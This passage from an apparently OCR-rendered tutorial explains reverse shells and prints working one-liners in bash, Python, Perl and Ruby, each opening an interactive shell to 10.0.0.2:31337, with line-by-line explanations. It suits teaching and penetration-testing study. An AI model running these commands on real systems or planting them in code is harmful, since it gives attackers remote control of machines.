 <u>3. Bash Reverse Shell:</u>

We can also use bash to construct reverse shells and connect to the target machine. This is an example of a reverse shell created with bash:

`bash -i >& /dev/tcp/10.0.0.2/31337 0>&1`

- /dev/tcp/IP address/Port number is used to create a tcp socket connection on the given IP address and port number.
- bash -i is used to create an interactive bash session on this tcp connection. It executes the commands that the server sends and writes the results to the stream.

<u>4. Python Reverse Shell:</u>

Reverse shells are also made with Python. The code below produces a reverse shell for the Linux operating system in python.

`python -c 'import socket,subprocess,os;sock=socket.socket(socket.AF_INET,socket.SOCK_STREAM);sock.connect(("10.0.0.2",31337));os.dup2(sock.fileno(),0); os.dup2(sock.fileno(),1); os.dup2(sock.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

- This code is using the socket library in python. The socket.socket method is used to create a socket handle and store it in the sock variable.
- The socket library's connect method is then used to establish a TCP socket connection with the server's IP address and port number.
- The file descriptor of the socket we just constructed is referred to by sock.fileno(). Standard input, output, and error are denoted by the numbers 0, 1, and 2. The os.dup2 function copies the file descriptor of the socket to the STDIN, STDOUT, and STDERR file descriptors.
- The bash process now uses the socket file descriptor to read the input from the server, execute it and write the output to the stream.

<u>5. Perl Reverse Shell:</u>

This is an example of a reverse shell created using Perl language that uses a Linux OS.

`perl -e 'use Socket;$ip="10.0.0.2";$port=31337;socket(sock,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(sock,sockaddr_in($port,inet_aton($ip)))){open(STDIN,">&sock");open(STDOUT,">&sock");open(STDERR,">&sock");exec("/bin/sh -i");};'`

- This code uses the Socket function in Perl to create a TCP socket connection on the given server IP address and port number.

- It then associates the socket's handle(sock variable) with the STDIN, STDOUT, and STDERR (standard input, output, and error) using the open function.
- The bash process now uses the socket file descriptor to read the input from the server, execute it and write the output to the stream.

<u>6. Ruby Reverse Shell:</u>

You can also create a reverse shell using Ruby. This example creates a reverse shell in Ruby that uses a Linux OS.

`ruby -rsocket -e'h=TCPSocket.open("10.0.0.2",31337).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",h,h,h)'`

- This code uses Ruby's TCPSocket library to create a tcp socket connection on the given IP address and port number. The socket handle is stored in variable h.
- The shell now reads incoming commands from the stream, executes them, and writes the output to the stream using the socket handle.
